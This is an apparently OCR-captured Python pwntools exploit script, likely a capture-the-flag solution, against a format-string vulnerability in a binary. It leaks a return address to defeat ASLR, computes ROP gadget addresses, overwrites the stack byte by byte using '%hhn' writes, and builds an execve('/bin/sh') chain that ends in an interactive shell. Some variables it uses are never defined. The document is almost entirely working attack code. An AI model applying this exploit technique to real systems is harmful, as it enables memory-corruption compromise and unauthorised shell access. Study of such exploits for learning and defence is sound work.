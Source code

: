 ```python
# %6$ outputs $rsp+8, so %165 outputs $rsp+1280.
# after call test.
# hexdump byte $rsp+1280 --size 8 --reverse
addr_rettest = int(p.recvuntil(b'=ret\n', drop=True), 16)
info('addr_rettest %x', addr_rettest)
# after call printf. <+529>:   mov    DWORD PTR [rbp-0x4dc],eax
addr_retprintf = addr_rettest - 0x7f28392e23fd + 0x7f28392e234a
info('addr_retprintf %x', addr_retprintf)
addr_codebase = addr_retprintf - 0x7fe2e98d234a + 0x7fe2e98d1000
info('addr_codebase %x', addr_codebase)

addr_gadget_base = addr_codebase - 0x9000
addr_poprdi_ret = addr_gadget_base + 0x0000000000009cd2
addr_poprsi_ret = addr_gadget_base + 0x000000000001781e
addr_poprdx_ret = addr_gadget_base + 0x0000000000009bdf
addr_poprax_ret = addr_gadget_base + 0x000000000005a777
addr_syscall = addr_gadget_base + 0x0000000000009643

def write_mem_byte(addr, value):
    assert value in range(256)
    base_payload = (b'' if value == 0 else b'%%%dc' % value)
    base_payload = base_payload + b'%%%d$hhn' % 36
    while len(base_payload) < 16:
        base_payload += b'='
    payload = base_payload + p64(addr) + b'\n'
    print(payload)
    p.recvuntil(b'Please input your instruction:\n')
    p.send(payload)
    # p.recvuntil(b'DONE.\n') # will not work as addr contains \x00

def write_mem_ptr(addr, value):
    info('write memory addr %x with %x', addr, value)
    for i in range(8):
        write_mem_byte(addr + i, value % 256)
        value >>= 8

rop = [addr_poprdi_ret, addr_format_buf + 10,
       addr_poprax_ret, 0x3b,
       addr_poprsi_ret, 0,
       addr_poprdx_ret, 0,
       addr_syscall]

for (i, v) in enumerate(rop):
    write_mem_ptr(addr_ptr_rettest + 8 * i, v)

p.recvuntil(b'Please input your instruction:\n')
p.send(b'exit, but /bin/sh\x00\n')

p.interactive()
```
